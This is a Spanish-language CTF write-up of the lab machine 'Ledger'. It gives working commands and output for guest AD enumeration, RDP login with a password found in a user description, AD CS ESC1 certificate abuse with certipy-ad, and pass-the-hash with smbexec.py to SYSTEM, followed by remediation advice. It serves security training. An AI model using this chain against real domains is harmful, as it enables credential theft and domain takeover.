

# Ledger
## Información General
- **Nombre de la máquina**: Ledger (actuando como DC: LABYRINTH.thm.local)
- **Dirección IP**: 10.10.120.231
- **Sistema Operativo**: Windows 10 / Server 2019 Build 17763 x64
- **Objetivo**: Obtener acceso como nt authority\system en el controlador de dominio.

---
## Parte 1: Reconocimiento
### Teoría
El reconocimiento inicial es crucial para identificar los servicios activos, puertos abiertos y posibles versiones de software en el objetivo. Esta información forma la base para las fases posteriores de enumeración y explotación, permitiendo enfocar los esfuerzos en los vectores de ataque más probables.

### Herramientas y Comandos
Se utilizaron dos escaneos nmap para identificar puertos abiertos y servicios en la IP 10.10.120.231.
**1. Escaneo rápido de todos los puertos TCP:**  
Este comando realiza un escaneo SYN (-sS) en todos los puertos TCP (-p-), deshabilita la resolución de nombres (-n) y la prueba de ping (-Pn), y establece una tasa mínima de envío de paquetes para acelerar el proceso (-min-rate 5000). La salida se guarda en formato "grepable" (-oG ports).
```
nmap -sS -p- -Pn -n -min-rate 5000 -oG ports 10.10.120.231
Host: 10.10.120.231 ()	Status: Up
Ports:
    53/open/tcp//domain///
    80/open/tcp//http///
    88/open/tcp//kerberos-sec///
    135/open/tcp//msrpc///
    139/open/tcp//netbios-ssn///
    389/open/tcp//ldap///
    443/open/tcp//https///
    445/open/tcp//microsoft-ds///
    464/open/tcp//kpasswd5///
    593/open/tcp//http-rpc-epmap///
    636/open/tcp//ldapssl///
    3268/open/tcp//globalcatLDAP///
    3269/open/tcp//globalcatLDAPssl///
    3389/open/tcp//ms-wbt-server///
    7680/open/tcp//pando-pub///
    9389/open/tcp//adws///
    47001/open/tcp//winrm///
    49664/open/tcp/////
    49665/open/tcp/////
    49666/open/tcp/////
    49667/open/tcp/////
    49669/open/tcp/////
    49670/open/tcp/////
    49671/open/tcp/////
    49675/open/tcp/////
    49678/open/tcp/////
    49683/open/tcp/////
    49707/open/tcp/////
    49710/open/tcp/////
    49715/open/tcp/////
Ignored State: closed (65505)
```    

**2. Escaneo de servicios y versiones en los puertos comunes detectados:**  
Este comando realiza un escaneo de versiones (-sV) y ejecuta scripts por defecto (-sC) en una lista específica de puertos TCP que se encontraron abiertos o son comunes.
```
nmap -sVC -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,3389,7680,9389,47001,49664,49665,49666,49667,49669,49670,49671,49675,49678,49683,49707,49710,49715 -oG services 10.10.120.231

Host: 10.10.120.231 ()	Status: Up
Services:
  Port      State  Service        Version
  --------------------------------------------------------------------------------------------------------------------
  53/tcp    open   domain         Simple DNS Plus
  80/tcp    open   http           Microsoft IIS httpd 10.0
  88/tcp    open   kerberos-sec   Microsoft Windows Kerberos (server time: 2025-05-07 16:37:37Z)
  135/tcp   open   msrpc          Microsoft Windows RPC
  139/tcp   open   netbios-ssn    Microsoft Windows netbios-ssn
  389/tcp   open   ldap           Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
  443/tcp   open   ssl/http       Microsoft IIS httpd 10.0
  445/tcp   open   microsoft-ds?
  464/tcp   open   kpasswd5?
  593/tcp   open   ncacn_http     Microsoft Windows RPC over HTTP 1.0
  636/tcp   open   ssl/ldap
  3268/tcp  open   ldap           Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
  3269/tcp  open   ssl/ldap       Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
  3389/tcp  open   ms-wbt-server  Microsoft Terminal Services
  7680/tcp  open   pando-pub?
  9389/tcp  open   mc-nmf         .NET Message Framing
  47001/tcp open   http           Microsoft HTTPAPI httpd 2.0 (SSDP|UPnP)
  49664/tcp open   msrpc          Microsoft Windows RPC
  49665/tcp open   msrpc          Microsoft Windows RPC
  49666/tcp open   msrpc          Microsoft Windows RPC
  49667/tcp open   msrpc          Microsoft Windows RPC
  49669/tcp open   msrpc          Microsoft Windows RPC
  49670/tcp open   ncacn_http     Microsoft Windows RPC over HTTP 1.0
  49671/tcp open   msrpc          Microsoft Windows RPC
  49675/tcp open   msrpc          Microsoft Windows RPC
  49678/tcp open   msrpc          Microsoft Windows RPC
  49683/tcp open   msrpc          Microsoft Windows RPC
  49707/tcp open   msrpc          Microsoft Windows RPC
  49710/tcp open   msrpc          Microsoft Windows RPC
  49715/tcp open   msrpc          Microsoft Windows RPC
```    

## Parte 2: Enumeración

### Teoría
Con base en los servicios expuestos, se procederá a enumerar el Active Directory. Específicamente, se buscarán usuarios, recursos compartidos SMB y políticas de grupo, aprovechando el posible acceso anónimo o con credenciales débiles a LDAP y SMB. El objetivo es identificar cuentas de usuario, especialmente aquellas con contraseñas débiles o reutilizadas, o con descripciones que puedan revelar información sensible.

### Herramientas y técnicas
Se utilizó nxc (NetExec) para enumerar SMB y LDAP contra la IP 10.10.120.231 y el dominio thm.local.
Enumeración SMB con credenciales de invitado:
```
nxc smb 10.10.120.231 -u 'guest' -p ''    
SMB         10.10.120.231   445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)  
SMB         10.10.120.231   445    LABYRINTH        [+] thm.local\guest:
```
      
Enumeración de usuarios LDAP con credenciales de invitado:
```
nxc ldap 10.10.120.231 -u 'guest' -p '' --users
LDAP        10.10.120.231   389    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 (name:LABYRINTH) (domain:thm.local)
LDAP        10.10.120.231   389    LABYRINTH        [+] thm.local\guest: 
LDAP        10.10.120.231   389    LABYRINTH        [*] Enumerated 487 domain users: thm.local
LDAP        10.10.120.231   389    LABYRINTH        -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.120.231   389    LABYRINTH        Guest                         <never>             0        Tier 1 User                                                 
LDAP        10.10.120.231   389    LABYRINTH        greg                          2023-05-15 10:49:03 0        Tier 1 User
LDAP        10.10.120.231   389    LABYRINTH        IVY_WILLIS                    2023-05-30 08:30:55 0        Please change it: CHANGEME2023!    
LDAP        10.10.120.231   389    LABYRINTH        SUSANNA_MCKNIGHT              2023-05-30 08:30:55 0        Please change it: CHANGEME2023!
```

Se identificó al usuario IVY_WILLIS con una contraseña (CHANGEME2023!) en el campo de descripción. Posteriormente, las acciones se realizan con SUSANNA_MCKNIGHT y la misma contraseña.

Verificación de acceso SMB con las credenciales encontradas:

```
smbmap -H 10.10.120.231 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.10.120.231:445       Name: labyrinth.thm.local       Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
``` 

El usuario SUSANNA_MCKNIGHT tiene acceso de lectura a NETLOGON y SYSVOL.

---

## Parte 3: Explotación
### Teoría
Las credenciales SUSANNA_MCKNIGHT:CHANGEME2023! obtenidas durante la enumeración permiten el acceso al sistema si el usuario tiene permisos de inicio de sesión remoto. El servicio RDP (puerto 3389) está abierto en 10.10.120.231, lo que lo convierte en un vector viable para el acceso inicial.

### Herramienta o script utilizado
nxc para verificar el acceso RDP y xfreerdp3 para la conexión RDP.

### Comando y resultado
Verificación de acceso RDP con nxc:
```
nxc rdp 10.10.120.231 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
RDP         10.10.120.231   3389   LABYRINTH        [*] Windows 10 or Windows Server 2016 Build 17763 (name:LABYRINTH) (domain:thm.local) (nla:True)
RDP         10.10.120.231   3389   LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:CHANGEME2023! (Pwn3d!)
``` 

El resultado indica que las credenciales son válidas para RDP.
Conexión RDP:
```
xfreerdp3 /v:10.10.120.231 /u:'SUSANNA_MCKNIGHT' /p:'CHANGEME2023!' /dynamic-resolution /clipboard /cert:ignore`
``` 

Se establece una sesión RDP con el usuario SUSANNA_MCKNIGHT. Se obtuvo la flag de usuario desde el escritorio del usuario.  



---
## Parte 4: Escalada de Privilegios
### Teoría
La escalada de privilegios se intentará mediante la explotación de configuraciones incorrectas en Active Directory Certificate Services (AD CS). Específicamente, se buscarán plantillas de certificado vulnerables a ataques como ESC1, donde un usuario con bajos privilegios puede solicitar un certificado en nombre de un usuario con privilegios elevados (como un administrador) si la plantilla permite al solicitante especificar un Subject Alternative Name (SAN) y la plantilla es válida para autenticación de cliente. El objetivo es el DC labyrinth.thm.local en 10.10.120.231.

### Método aplicado
Se utilizó certipy-ad para encontrar plantillas vulnerables, solicitar un certificado en nombre del Administrador y luego usar ese certificado para obtener un Ticket Granting Ticket (TGT) y el hash NT del Administrador. Finalmente, se usó smbexec.py para ejecutar comandos como nt authority\system.

### Comando y resultado
Búsqueda de plantillas de certificado vulnerables:
```
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!' -target 10.10.120.231 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'thm-LABYRINTH-CA' via RRP
[*] Successfully retrieved CA configuration for 'thm-LABYRINTH-CA'
[*] Checking web enrollment for CA 'thm-LABYRINTH-CA' @ '10.10.120.231'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : thm-LABYRINTH-CA
    DNS Name                            : labyrinth.thm.local
    ...
Certificate Templates
  0
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollee Supplies Subject           : True
    ...
    [+] User Enrollable Principals      : THM.LOCAL\Authenticated Users
                                          THM.LOCAL\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```
La plantilla ServerAuth es vulnerable a ESC1.

Solicitud de certificado para Administrator@thm.local usando la plantilla ServerAuth:
```
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target 10.10.120.231 -template ServerAuth -upn Administrator@thm.local
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 24
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@thm.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

Se generó el archivo administrator.pfx.
Autenticación con el certificado y obtención del hash NT del Administrador:
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.120.231
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@thm.local'
[*] Using principal: 'administrator@thm.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322
```

Se obtuvo el TGT para el administrador y su hash NT: aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322.
Ejecución de comandos como SYSTEM usando Pass-the-Hash con smbexec.py:
```
smbexec.py -k -hashes aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322 THM.LOCAL/Administrator@10.10.120.231
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

Se obtuvo una shell como nt authority\system en el host 10.10.120.231.

---

## Parte 5: Post-Explotación (opcional)
Con acceso nt authority\system, se tiene control total sobre la máquina 10.10.120.231 (LABYRINTH.thm.local). Las acciones de post-explotación podrían incluir:
- Dump de credenciales de SAM/LSASS.
- Movimiento lateral a otras máquinas del dominio.
- Establecimiento de persistencia.
- Búsqueda y exfiltración de información sensible.
- Obtención de la flag de root/administrador.

---

## Parte 6: Flags o evidencias obtenidas
- **Root Flag**:
```
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt CTF{***************}
```

---
## Recomendaciones de Seguridad
1. **Corregir Vulnerabilidad AD CS (ESC1)**:
    - Revisar las plantillas de certificado, especialmente ServerAuth.
    - Deshabilitar la opción "Enrollee supplies subject" (o CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT) si no es estrictamente necesario.
    - Si se requiere, implementar controles de aprobación para la emisión de certificados o restringir qué EKU (Extended Key Usages) se permiten.
    - Limitar los permisos de inscripción en plantillas sensibles.
2. **Gestión de Contraseñas**:
    - Implementar políticas de contraseñas robustas y auditorías regulares.
    - No almacenar contraseñas o pistas en campos de descripción de Active Directory u otros lugares inseguros.
    - Asegurar que los usuarios cambien las contraseñas predeterminadas o temporales inmediatamente.
3. **Principio de Menor Privilegio**:
    - Asegurar que los usuarios solo tengan los permisos necesarios para realizar sus funciones.
    - Limitar los derechos de inicio de sesión RDP a los usuarios que lo requieran explícitamente.
4. **Monitoreo y Detección**:
    - Monitorear la creación y el uso de certificados, especialmente aquellos solicitados con SANs alternativos.
    - Auditar logs de autenticación para detectar intentos de acceso anómalos o uso de credenciales comprometidas.
5. **Seguridad SMB/LDAP**:
    - Deshabilitar el acceso anónimo o de invitado a SMB y LDAP si no es esencial para las operaciones.
    - Requerir firma SMB para mitigar ataques de retransmisión.